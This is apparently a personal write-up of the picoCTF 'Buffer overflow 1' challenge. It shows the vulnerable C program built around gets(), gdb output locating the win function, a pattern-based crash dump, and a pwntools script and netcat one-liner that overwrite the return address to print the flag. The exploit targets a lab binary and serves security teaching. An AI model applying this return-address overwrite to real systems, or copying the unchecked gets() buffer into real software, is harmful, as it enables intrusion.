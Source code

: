 # Buffer overflow 1
The problem statement:
```
Control the return address Now we're cooking! You can overflow the buffer and return to the flag function in the program. You can view source here. And connect with it using nc saturn.picoctf.net 64907
```
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
When we try to enter anything, it says jumping to an address. If we use gdb on the assembly code, we see the address for the function win is different. So we need to change the address we need to jump to. 
```
gdb vuln
GNU gdb (Debian 10.1-2) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln...
(No debugging symbols found in vuln)
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  printf@plt
0x08049050  gets@plt
0x08049060  fgets@plt
0x08049070  getegid@plt
0x08049080  puts@plt
0x08049090  exit@plt
0x080490a0  __libc_start_main@plt
0x080490b0  setvbuf@plt
0x080490c0  fopen@plt
0x080490d0  setresgid@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
```
We need to see how the input will effect the address it is jumping to. So I used an online tool that gives me a string of necessary length. I input that into gdb after running the program. That caused some overflow and the address it is jumping to changed. Here's the website for it. https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html
```
Please enter your string: 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Okay, time to return... Fingers Crossed... Jumping to 0x35624134

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x41326241 ('Ab2A')
ECX: 0x41 ('A')
EDX: 0xffffffff 
ESI: 0x1 
EDI: 0x80490e0 (<_start>:       endbr32)
EBP: 0x62413362 ('b3Ab')
ESP: 0xffffd0b0 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
EIP: 0x35624134 ('4Ab5')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35624134
[------------------------------------stack-------------------------------------]
0000| 0xffffd0b0 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0004| 0xffffd0b4 ("b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0008| 0xffffd0b8 ("8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0012| 0xffffd0bc ("Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0016| 0xffffd0c0 ("c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0020| 0xffffd0c4 ("2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0024| 0xffffd0c8 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0028| 0xffffd0cc ("c5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x35624134 in ?? ()
```
That's great!! Now we just need to figure out how to change the address to what we need to jump to. The overflow occurs from the 44th character. And the rest of it is converted to hex and used as the address. So we use a small python script to convert the required address to its little endian form (the address of the win function) to the binary running and get the flag.

Here's the python script
```
from pwn import *
print("a"*44 + str(p32(0x080491f6)))
```
This prints out 
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb'\xf6\x91\x04\x08'
```
Now if we just run the binary and pipe echo with the -e attribute, it prints out the flag :D

```
The command would be echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xf6\x91\x04\x08" | nc saturn.picoctf.net 56953
```